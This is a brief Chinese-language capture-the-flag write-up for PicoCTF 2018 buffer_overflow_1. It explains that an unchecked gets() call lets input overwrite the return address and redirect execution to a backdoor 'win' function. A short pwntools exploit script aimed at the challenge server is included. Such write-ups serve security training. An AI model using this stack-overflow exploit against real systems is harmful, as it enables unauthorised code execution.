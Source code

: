 程序本身是完全不开安全机制的

![image-20201203101253157](https://static.hack1s.fun/images/2021/02/06/image-20201203101253157.png)

出现问题的函数

![image-20201203101343293](https://static.hack1s.fun/images/2021/02/06/image-20201203101343293.png)

这个gets直接导致溢出

返回地址是用这个`get_return_address`获取的

在程序中还有一个后门函数

![image-20201203101657362](https://static.hack1s.fun/images/2021/02/06/image-20201203101657362.png)

溢出gets之后控制返回地址到这个win就可以了

```python
from pwn import *

io = remote('node3.buuoj.cn',27887)
#io = process('./PicoCTF_2018_buffer_overflow_1')
elf = ELF('./PicoCTF_2018_buffer_overflow_1')

payload  = bytes('a'*0x28+'b'*0x4,'ascii') + p32(elf.sym['win'])

io.sendline(payload)
io.interactive()
```


